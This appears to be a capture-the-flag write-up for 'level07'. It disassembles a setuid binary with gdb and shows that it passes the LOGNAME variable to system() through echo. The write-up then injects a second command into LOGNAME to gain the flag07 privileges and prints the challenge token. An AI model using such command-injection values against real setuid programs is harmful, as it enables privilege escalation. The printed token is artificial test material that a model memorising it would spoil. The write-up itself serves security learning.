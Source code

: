 # level07

- We log as `level07`

- A single file is located inside the home directory of level07:
>`-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07`

- The executable file has setuid & setgid bits permissions

- We can see that the executable will be executed as `flag07` if we execute it being `level07`

- Upon execution without arguments the executable prints:
>`level07`

- We dissassemble it using gdb, here is the asm dump of the main function:
```asm
Dump of assembler code for function main:
   0x08048514 <+0>:     push   %ebp
   0x08048515 <+1>:     mov    %esp,%ebp
   0x08048517 <+3>:     and    $0xfffffff0,%esp
   0x0804851a <+6>:     sub    $0x20,%esp
   0x0804851d <+9>:     call   0x80483f0 <getegid@plt>
   0x08048522 <+14>:    mov    %eax,0x18(%esp)
   0x08048526 <+18>:    call   0x80483e0 <geteuid@plt>
   0x0804852b <+23>:    mov    %eax,0x1c(%esp)
   0x0804852f <+27>:    mov    0x18(%esp),%eax
   0x08048533 <+31>:    mov    %eax,0x8(%esp)
   0x08048537 <+35>:    mov    0x18(%esp),%eax
   0x0804853b <+39>:    mov    %eax,0x4(%esp)
   0x0804853f <+43>:    mov    0x18(%esp),%eax
   0x08048543 <+47>:    mov    %eax,(%esp)
   0x08048546 <+50>:    call   0x8048450 <setresgid@plt>
   0x0804854b <+55>:    mov    0x1c(%esp),%eax
   0x0804854f <+59>:    mov    %eax,0x8(%esp)
   0x08048553 <+63>:    mov    0x1c(%esp),%eax
   0x08048557 <+67>:    mov    %eax,0x4(%esp)
   0x0804855b <+71>:    mov    0x1c(%esp),%eax
   0x0804855f <+75>:    mov    %eax,(%esp)
   0x08048562 <+78>:    call   0x80483d0 <setresuid@plt>
   0x08048567 <+83>:    movl   $0x0,0x14(%esp)
   0x0804856f <+91>:    movl   $0x8048680,(%esp)
   0x08048576 <+98>:    call   0x8048400 <getenv@plt>
   0x0804857b <+103>:   mov    %eax,0x8(%esp)
---Type <return> to continue, or q <return> to quit---
   0x0804857f <+107>:   movl   $0x8048688,0x4(%esp)
   0x08048587 <+115>:   lea    0x14(%esp),%eax
   0x0804858b <+119>:   mov    %eax,(%esp)
   0x0804858e <+122>:   call   0x8048440 <asprintf@plt>
   0x08048593 <+127>:   mov    0x14(%esp),%eax
   0x08048597 <+131>:   mov    %eax,(%esp)
   0x0804859a <+134>:   call   0x8048410 <system@plt>
   0x0804859f <+139>:   leave  
   0x080485a0 <+140>:   ret    
End of assembler dump.
```

- We can see multiple system calls: `getenv`, `asprintf`, `system`
>`0x08048576 <+98>:    call   0x8048400 <getenv@plt>`
>`0x0804858e <+122>:   call   0x8048440 <asprintf@plt>`
>`0x0804859a <+134>:   call   0x8048410 <system@plt>`

- Knowing that the file has setuid bit set the `system` call is interesting, knowing how it works could permit us to execute arbitrary code

- We add a breakpoint at `0x08048576` and display `$0x8048680` which is the element moved as first parameter of `getenv`
>`0x0804856f <+91>:    movl   $0x8048680,(%esp)`
>`(gdb) x/s 0x8048680`
>`0x8048680:       "LOGNAME"`

- We can this the return value of `getenv` is moved at `0x08` which is the third parameter of `asprintf`
>`0x0804857b <+103>:   mov    %eax,0x8(%esp`

- We can this the value of `0x8048688` is moved at `0x04` which is the second parameter of `asprintf`, let's display it:
>`0x0804857f <+107>:   movl   $0x8048688,0x4(%esp)`
>`(gdb) x/s 0x8048688`
>`0x8048688:       "/bin/echo %s "`

- We can see `0x14(%esp)` is moved as first parameter of asprintf, it is a pointer which will be allocated by `asprintf` and this pointer is passed as first parameter of `system`
```asm
   0x08048587 <+115>:   lea    0x14(%esp),%eax
   0x0804858b <+119>:   mov    %eax,(%esp)
   0x0804858e <+122>:   call   0x8048440 <asprintf@plt>
   0x08048593 <+127>:   mov    0x14(%esp),%eax
   0x08048597 <+131>:   mov    %eax,(%esp)
   0x0804859a <+134>:   call   0x8048410 <system@plt>
```

- We can conclude that this binary gets the content of the `LOGNAME` environment variable and pass it through echo.

- We can corrupt the `LOGNAME` variable and make arbitrary code execution:
```bash
export LOGNAME="| getflag >/tmp/pwn07"
./level07
```

- We can `cat /tmp/pwn07`:
>`Check flag.Here is your token : fiumuikeil55xe9cu4dood66h`

- We get the flag: `fiumuikeil55xe9cu4dood66h`